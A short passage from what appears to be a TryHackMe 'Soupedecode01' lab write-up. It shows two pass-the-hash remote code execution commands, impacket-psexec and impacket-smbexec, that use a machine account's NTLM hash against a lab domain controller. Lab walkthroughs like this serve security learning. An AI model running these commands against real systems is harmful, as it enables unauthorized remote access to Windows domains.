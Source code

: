 ![](/images/TryHackMe/Soupedecode01/FileServer.png)

---

#### option | RCE impacket-psexec

```sh
impacket-psexec 'FileServer$@SOUPEDECODE.LOCAL' -hashes ':e41da7e79a4c76dbd9cf79d1cb325559'
```
{: .wrap }

![](/images/TryHackMe/Soupedecode01/RCE.png)

---

#### option || RCE impacket-smbexec

```sh
impacket-smbexec -hashes :e41da7e79a4c76dbd9cf79d1cb325559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'
```
